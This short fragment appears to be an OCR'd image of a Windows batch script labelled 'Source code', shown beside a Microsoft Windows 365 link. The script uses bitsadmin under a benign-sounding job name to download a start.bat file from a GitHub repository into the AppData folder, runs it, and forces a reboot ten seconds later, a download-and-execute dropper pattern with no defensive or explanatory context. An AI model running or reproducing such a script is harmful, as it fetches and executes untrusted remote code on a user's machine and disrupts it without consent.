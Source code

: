https://windows365.microsoft.com/

call bitsadmin.exe /transfer Explorers /download /priority FOREGROUND https://raw.githubusercontent.com/xcgx/strange/main/start.bat %appdata%\start.bat

cd %appdata%

cd %appdata%

start.bat

call shutdown -r -t 10
